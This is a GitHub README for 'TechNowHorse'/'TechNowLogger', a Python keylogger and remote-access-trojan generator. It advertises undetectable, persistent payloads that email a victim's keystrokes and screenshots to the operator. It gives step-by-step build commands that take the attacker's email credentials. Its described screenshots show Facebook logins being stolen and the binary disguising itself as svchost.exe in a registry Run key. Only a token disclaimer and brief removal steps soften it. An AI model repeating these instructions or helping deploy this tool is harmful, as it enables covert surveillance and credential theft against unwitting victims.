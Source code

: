 <p align="center">
  <img src="https://github.com/Technowlogy-Pushpender/technowlogger/blob/master/img/technowlogger-logo.png" alt="TechNowLogger Logo" width=200 height=200/>
</p>

<h1 align="center">TechNowHorse</h1>
<p align="center">
    <a href="https://python.org">
    <img src="https://img.shields.io/badge/Python-3.7-green.svg">
  </a>
  <a href="https://github.com/Technowlogy-Pushpender/technowhorse/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/Technowlogy-Pushpender/technowhorse/releases">
    <img src="https://img.shields.io/badge/Release-1.0-blue.svg">
  </a>
    <a href="https://github.com/Technowlogy-Pushpender/technowhorse">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

<p align="center">
  <img src="https://github.com/Technowlogy-Pushpender/technowlogger/blob/master/img/hacker-gif.gif" alt="Hacker GIF" width=200 height=200/>
</p>
             
                        This small python script can do really awesome work.

TechNowLogger is Keylogger Generator for Windows/Linux, which sends key-logs & screenshot via email with other juicy target info written in Python 3.

## Disclaimer
<p align="center">
  :computer: This project was created only for good purposes and personal use.
</p>

THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND. YOU MAY USE THIS SOFTWARE AT YOUR OWN RISK. THE USE IS COMPLETE RESPONSIBILITY OF THE END-USER. THE DEVELOPERS ASSUME NO LIABILITY AND ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM.

## Features
- [x] Works on Windows/Linux
- [x] Notify New Victim Via Email
- [x] Undetectable
- [x] Persistence
- [x] Sends Screenshot of Victim PC's Screen via email
- [x] Creates Executable Binary With Zero Dependencies
- [x] Create less size ~ 5mb payload with advance functionality

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 7 - Ultimate**

## Prerequisite
- [x] Python 3.X
- [x] Few External Modules

## How To Use in Linux
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowlogger.git

# Go into the repository
$ cd technowlogger

# Installing dependencies
$ python -m pip install -r requirements.txt

$ chmod +x paygen.py
$ ./technowgen.py  --help    or   python technowgen.py --help

# Making Payload/RAT
$ python technowgen.py -e youremail@gmail.com -p YourEmailPass -l -o output_file_name
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowlogger.git

# Go into the repository
$ cd technowlogger

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open technowgen.py in Text editor and Configure Line 7 WINDOWS_PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" 

# Getting Help Menu
$ python technowgen.py --help

# Making Payload/RAT
$ python technowgen.py -e youremail@gmail.com -p YourEmailPass -w -o output_file_name
```

## Note:- Evil File will be saved inside dist/ folder, inside technowlogger/ folder

## Screenshots:

#### Getting Help
![](/img/1.help.png)

#### Running technowgen.py Script
![](/img/2.running_script.png)

#### Building Finished
![](/img/3.building_finished.png)

#### When Keylogger runs, it adds Registry to become persistence
![](/img/4.added_registry_for_persistence.png)

#### Makes copy of itself and saved it inside Roaming
![](/img/5.rat_saved_roaming.png)

#### Typing Random text to test Keylogger
![](/img/6.randomText-to-test-keylogger.png)

#### Report 1 sended by TechNowLogger
![](/img/7.result.png)

#### Login facebook ~ Victim
![](/img/8.testing-keylogger.png)

#### Report 2 - Keylogs of facebook Credentials
![](/img/9.report-1.png)

#### Report 3 - With Screenshots
![](/img/10.report-2.png)

## Removing TechNowLogger:

   * Go to start, type regedit and run the first program, this will open the registry editor.
   * Navigate to the following path Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run There should be an entry called svchost, right click this entry and select Delete.
   * Go to your user path > AppData > Roaming, you’ll see a file named “svchost.exe”, this is the RAT, right click > Delete.
   * Restart the System.

## Contact

singhpushpender250@gmail.com or Contact Us
